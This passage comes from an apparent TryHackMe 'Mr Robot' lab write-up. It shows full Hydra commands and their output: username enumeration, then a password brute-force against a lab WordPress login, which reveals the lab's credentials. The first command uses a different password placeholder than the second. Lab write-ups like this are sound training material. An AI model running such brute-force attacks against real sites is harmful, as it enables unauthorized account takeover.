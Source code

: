   ![](/assets/TryHackMeRoomsImage/MrRobot/image1.png)

## Brute Force with Hydra

First, intercept the POST request in Burp Suite. I found the username is sent in `log` and the password in `pwd`. Let's use Hydra.

>|**hydra -L fsocity.dic -p test 10.10.186.36 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30**

Result:
```js
[80][http-post-form] host: 10.10.186.36   login: Elliot   password: test
```

Found username: Elliot.

Use Hydra to brute force the password:
>|**hydra -l Elliot -P fsocity.dic 10.10.186.36 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 30**

Result:
```js
[80][http-post-form] host: 10.10.186.36   login: Elliot   password: ER28-0652
```
